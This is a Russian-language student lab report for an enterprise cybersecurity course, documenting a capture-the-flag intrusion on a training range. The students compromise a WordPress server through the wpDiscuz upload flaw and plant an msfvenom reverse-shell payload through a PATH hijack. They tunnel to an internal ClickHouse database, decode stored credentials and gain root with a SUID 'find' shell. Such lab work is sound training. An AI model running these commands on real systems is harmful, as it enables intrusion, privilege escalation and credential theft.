


---
## Front matter
title: "Лабораторная работа №2"
subtitle: "Кибербезопасность предприятия"
author: 
- Бызова Мария Олеговна
- Верниковская Екатерина Андреевна
- Богаткина Алена Александровна
- Сущенко Алина Николаевна
- Калашникова Ольга Сергеевна
- Абдуллахи Бахара
license: "CC BY"
---

# Цель работы

Целью данной лабораторной работы является получение практических навыков по обнаружению и эксплуатации уязвимостей веб-сервера и сервера аналитики на базе СУБД ClickHouse, а также по повышению привилегий в операционной системе Linux.

# Задачи

Для достижения цели необходимо выполнить следующие задачи:
1.  Провести разведку сети и обнаружить уязвимый веб-сервер.
2.  Эксплуатировать уязвимость в CMS WordPress для получения первоначального доступа.
3.  Повысить привилегии до уровня ```root``` на веб-сервере.
4.  Получить доступ к внутреннему серверу ClickHouse через скомпрометированный веб-сервер.
5.  Извлечь учетные данные из базы данных ClickHouse.
6.  Подключиться к серверу ClickHouse по SSH и повысить привилегии.
7.  Найти все флаги, подтверждающие успешное выполнение этапов.

# Выполнение лабораторной работы

## Подключение к инфраструктуре и работа с учётными данными

Для выполнения дальнейших действий было выполнено подключение к удалённому рабочему столу (виртуальная машина Kali Linux (атакующий)). В окне Remote Connection Profile был настроен профиль подключения с протоколом RDP ([рис. @fig-001])

{#fig-001 width=70%}

## Атака на веб-сервер (первый этап)

### Разведка и поиск веб-сервера

Нашли веб-сервер, находящийся во внешнем сегменте. Провели разведку сканированием с использованием сканера ```nmap```. На основе исходных данных адрес сканируемой подсети - 195.239.174.0/24. Для этого выполниои команду: ```nmap -sV -sC 195.239.174.0/24``` ([рис. @fig-002])

{#fig-002 width=70%}

Сервер с адресом 195.239.174.25 содержит открытый 80 порт (http), на котором располагается веб-портал portal.ampire.corp. Поскольку в инфраструктуре отсутствует DNS-сервер (по результатам сканирования), то для перехода на сайт портала организации по доменному имени добавили статическую запись в файл ```/etc/hosts```: ```195.239.174.25 portal.ampire.corp``` ([рис. @fig-003])

{#fig-003 width=70%}

После добавления записи при переходе по адресу ```http://portal.ampire.corp```  в браузере открылся сайт портала организации. В нижней части страницы портала обнаружили информацию, что данный сайт создан с помощью ```CMS Wordpress``` ([рис. @fig-004])

{#fig-004 width=70%}

Сайт работает на CMS Wordpress, поэтому для поиска возможных векторов атаки можно произвести сканирование с помощью модуля Metasploit wordpress\_scanner. Metasploit Framework - инструмент, содержащий множество модулей для исследования и эксплуатации уязвимостей. Открыть фреймворк через команду ```msfconsole``` в терминале ([рис. @fig-005])

{#fig-005 width=70%}

Для исследования CMS WordPress на уязвимости выбрали подходящий модуль сканирования. Выполнили поиск подходящего модуля сканирования с помощью команды ```search wordpress scanner``` ([рис. @fig-006])

{#fig-006 width=70%}

Наиболее подходящим под требуемые задачи инструментом является модуль 40 auxiliary/scanner/http/wordpress\_scanner (отсканирует все в wordpress). Для выбора данного модуля использовали команду ```use 40```. Для правильной настройки модуля отобразили настраиваемые параметры с помощью команды ```options``` ([рис. @fig-007])

{#fig-007 width=70%}

Для настройки модуля сканирования задали параметр ```rhost```, который определяет цель сканирования. В данном случае целью выступает portal.ampire.corp. Настройку произвели с помощью команды ```set rhost portal.ampire.corp``` ([рис. @fig-008])

{#fig-008 width=70%}

После настройки модуль запустили с помощью команды ```run```. Результатом сканирования является список используемых целевым сервисом плагинов ([рис. @fig-009])

{#fig-009 width=70%}

Для эксплуатации уязвимости в плагине WpDiscuz был выбран модуль ```exploit/unix/webapp wp\_wpdiscuz\_unauthenticated\_file\_upload```

### Эксплуатация уязвимости плагина WpDiscuz

Нашли нужный exploit для выбранного плагина с помощью ```search wpdiscuz``` ([рис. @fig-010])

{#fig-010 width=70%}

Для эксплуатации уязвимости потребуются: адрес атакуемой машины и ссылка на любой пост с возможностью комментирования. IP-адрес атакуемой машины получен на первом этапе сканирования (195.239.174.25), ссылку на пост получили в браузере при просмотре записи после перехода в раздел ```Recent posts``` (недавние сообщения) с главной страницы портала организации ([рис. @fig-011])

{#fig-011 width=70%}

После перехода по данной ссылке будет получен адрес поста, который будет использоваться при атаке ```/index.php/2021/07/26/hello-world/``` (параметр BLOGPATH). Установили знчения параметров для атаки ([рис. @fig-012])

{#fig-012 width=70%}

В результате запуска модуля была получена meterpreter-сессия от имени пользователя ```www-data``` ([рис. @fig-013])

{#fig-013 width=70%}

### Получение первого флага в /var/www/flag

После получения сессии с веб-сервером получили доступ к директории ```/var/www/flag```, просмотрели значение флага в файле ```flag\_for\_red\_team```. **Был получен первый флаг** ([рис. @fig-014])

{#fig-014 width=70%}

### Локальное повышение привилегий

В текущей сессии для взаимодействия с узлом 195.239.174.25 в качестве полезной нагрузки используется PHP-скрипт (php/linux) ([рис. @fig-015])

{#fig-015 width=70%}

Использовали команду ```sessions -u "ID сессии"```, которая выполняет апгрейд сессии, заменяя текущую полезную нагрузку (php/linux) на более новую версию (x86/linux) ([рис. @fig-016])

{#fig-016 width=70%}

Пользователь ```www-data``` имеет право на чтение директорий принадлежащих к группе ```www-data```. Для получения доступа к флагу, расположенному по пути ```/root/flag```, нужно повысить привилегии до уровня пользователя root, иначе в указанную папку невозможно попасть. Для повышения привилегий можно использовать файлы со SUID-бит. Файл со SUID-битом можно найти в директории веб-сервера ```/var/www/html/wordpress```. Для поиска запустили из meterpreter команду ```shell``` и посмотрели содержимое указанного каталога. В данной папке существует единственный файл, запускающийся с повышенными привилегиями - это файл ```apache\_restart``` ([рис. @fig-017])

{#fig-017 width=70%}

Просмотр файла ```apache\_restart``` демонстрирует, что сервис запускается через системную утилиту systemctl ([рис. @fig-018])

{#fig-018 width=70%}

Идея атаки заключается в следующем:

- создадим вредоносный файл ```systemctl``` с полезной нагрузкой;

- перенесем созданный файл ```systemctl``` на атакуемый веб-сервер в директорию ```/var/www/wordpress/```. Данный файл заменит легитимную утилиту systemctl, если переписать переменную $PATH. Таким образом, когда системный процесс от имени ```www-data``` запустит ```systemctl```, выполнится подмененная версия из ```/var/www/wordpress/```.

Для генерирования полезной нагрузки открыли дополнительный терминал Kali и выбрали папку для сохранения ([рис. @fig-019])

{#fig-019 width=70%}

Далее сгенерировали полезную нагрузку в файл с именем ```systemctl``` с
помощью команды ```msfvenom```. Полезная нагрузка будет отправлять запрос на установку соединения с используемой Kali linux на порт 4444. Команда: ```msfvenom -p linux/x64/meterpreter/reverse\_tcp LHOST=195.239.174.11 LPORT=4444 -f elf > systemctl``` ([рис. @fig-020])

{#fig-020 width=70%}

Загрузили на взломанный узел файл ```systemctl``` в директорию ```/var/www/html/wordpress```, команда для загрузки файла. Команда для загрузки файла: ```upload /root/Downloads/systemctl /var/www/html/wordpress```. Для возможности исполнения файла systemctl выдали ему соответствующие права с помощью команды  ```chmod 777 /var/www/html/wordpress/systemctl``` ([рис. @fig-021]), ([рис. @fig-022])

{#fig-021 width=70%}

{#fig-022 width=70%}

Далее зашли в оболочку ```shell``` и перезаписали переменную ```$PATH``` , так чтобы переменная указывала на директорию с файлами WordPress с помощью команды ```export PATH=/var/www/html/wordpress:$PATH```  ([рис. @fig-023])

{#fig-023 width=70%}

После перезаписи переменной ```$PATH``` открыли ```Metasploit```, нашли и запустили обработчик входящих запросов ```exploit/multi/handler```. Параметры для запуска модуля ([рис. @fig-024]):

```
use multi/handler
set lhost 195.239.174.11
set lport 4444
set payload linux/x64/meterpreter/reverse_tcp
run
```

{#fig-024 width=70%}

После запуска обработчика входящих запросов (handler) вернулись в окно старой консоли и запустить файл ```apache\_restart``` с помощью команды ```/var/www/html/wordpress/apache\_restart``` ([рис. @fig-025])

{#fig-025 width=70%}

После запуска файла ```apache\_restart``` в новом терминале, в котором запущен handler, получена meterpreter-сессия от имени ```root```. Процесс повышения привилегий завершен ([рис. @fig-026]), ([рис. @fig-027])

{#fig-026 width=70%}

{#fig-027 width=70%}

### Получение второго флага в директории /root/flag

Для получения значения флага перешли в директорию ```/root/flag``` и вывели на экран содержимое файла с флагом. **Был получен второй флаг** ([рис. @fig-028])

{#fig-028 width=70%}

## Атака на сервер аналитики (второй этап)

### Удаленное подключение к серверу ClickHouse по порту 9000

Для удаленного подключения к серверу ```ClickHouse``` предварительно выполнили переадресацию портов в полученной meterpreter-сессии с помощью команды ```portfwd add –L 195.239.174.11 –l 9000 –p 9000 –r 10.10.10.55``` ([рис. @fig-029])

{#fig-029 width=70%}

Данная команда при обращении к локальной машине по порту 9000 производит перенаправление всех запросов на уязвимый сервер с СУБД по тому же порту. Таким образом, используя клиент СУБД для подключения к ClickHouse, ввели в командную оболочку системы команду ```clickhouse-client -h 195.239.174.11``` ([рис. @fig-030])

{#fig-030 width=70%}

Перечень всех БД, развернутых на сервере, получили с помощью команды ```show databases``` ([рис. @fig-031])

{#fig-031 width=70%}

Анализируя список БД можно сделать вывод, что вероятнее всего в БД users содержится список всех пользователей ClickHouse. Для подключения к данной базе ввели команду use users, для вывода таблиц в БД команду ```show tables``` ([рис. @fig-032])

{#fig-032 width=70%}

### Получение третьего флага в БД сервера

В БД ```users``` содержится таблица ```server\_users```, в которой представлены учетные данные системных пользователей сервера ClickHouse ([рис. @fig-033])

{#fig-033 width=70%}

Поле password содержит пароли для подключения к серверу ClickHouse, зашифрованные в base64. Далее расшифровали пароль с помощью команды ```echo –n "закодированная\_строка" | base64 -d``` ([рис. @fig-034])

{#fig-034 width=70%}

В результате расшифровки пароля для логина flag **был получен третий флаг** задания «Захват базы данных».

### Удаленное подключение к серверу ClickHouse по порту 22

По полученным учетным записям пользователей в кодировке base64 можно подключиться к серверу ClickHouse по протоколу SSH. Получили учётные данные пользователя ```buttercup``` ([рис. @fig-035])

{#fig-035 width=70%}

Для подключения по SSH через полученную ранее meterpreter-сессию необходимо предварительно выполнить переадресацию порта 22 с помощью команды. В процессе возникла ошибка связанная с тем, что порт 22 на IP-адресе 195.239.174.11 занят или недоступен для использования. Для её исправления определили PID процесса, который занимает порт 22 и остановить его с помощью команд ```lsof -i :22``` и ```kill "PID"``` ([рис. @fig-036])

{#fig-036 width=70%}

Далее выполнили переадресацию порта 22 с помощью команды ```portfwd add –L 195.239.174.11 –l 22 –p 22 –r 10.10.10.55``` ([рис. @fig-037])

{#fig-037 width=70%}

После успешной переадресации портов в новом терминале осуществили подключение к серверу ClickHouse, используя найденные учетные данные ```ssh buttercup@195.239.174.11``` ([рис. @fig-038])

{#fig-038 width=70%}

### Получение четвертого флага в директории /home сервера

В директории ```/home/``` находится файл с названием ```flag```. Прочитав файл, узнали значение флага. ([рис. @fig-039])

{#fig-039 width=70%}

В результате указанных действий **был получен четвёртый флаг** задания «Захват сервера БД».

### Повышение привилегий

Пятый флаг располагается в одноименном файле в директории /root. Для доступа к файлу необходимо повысить привилегии текущего пользователя с помощью ряда способов. В рамках данного сценария будем реализовывать повышение привилегий через файлы с SUID-бит. Алгоритм следующий:

1) поиск уязвимых SUID-бинарных файлов;

2) эксплуатация уязвимого бинарного файла;

3) чтение файла в директории /root.

Вывели список всех файлов в системе с SUID-битами с помощью команды ```find / -perm /u=s``` ([рис. @fig-040])

{#fig-040 width=70%}

В полученном списке файлов с SUID-битом имеется строка ```/usr/bin/find```. Далее можно получить доступ к командной оболочке с правами пользователя root с помощью команды ```find . -exec /bin/sh -p \; -quit``` ([рис. @fig-041])

{#fig-041 width=70%}

Указанная команда ищет первый файл или директорию в текущей директории и запускает от имени пользователя root привилегированную оболочку (/bin/sh -p). Процесс наследует права владельца файла root, флаг -p в /bin/sh запрещает сброс привилегий. После успешного запуска оболочки команда завершила работу.

### Получение пятого флага в директории /root сервера

После получения доступа к командной оболочке просмотрели файл ```/root/flag```. В результате **был получен пятый флаг** задания «Повышение привилегий» ([рис. @fig-042]), ([рис. @fig-043])

{#fig-042 width=70%}

{#fig-043 width=70%}

# Вывод

В ходе выполнения лабораторной работы был успешно проведён многоэтапный захват инфраструктуры. Первоначальный доступ получен через уязвимость плагина WpDiscuz CMS WordPress, что позволило получить сессию www-data. Повышение привилегий до root на веб-сервере выполнено через подмену systemctl с использованием SUID-бита. Через скомпрометированный хост организовано туннелирование к внутреннему серверу ClickHouse, извлечены и декодированы учётные данные из БД, выполнено подключение по SSH и финальное повышение привилегий через SUID-утилиту. Получены все пять флагов, подтверждающих достижение цели работы.

# Список литературы {.unnumbered}

::: {#refs}
:::
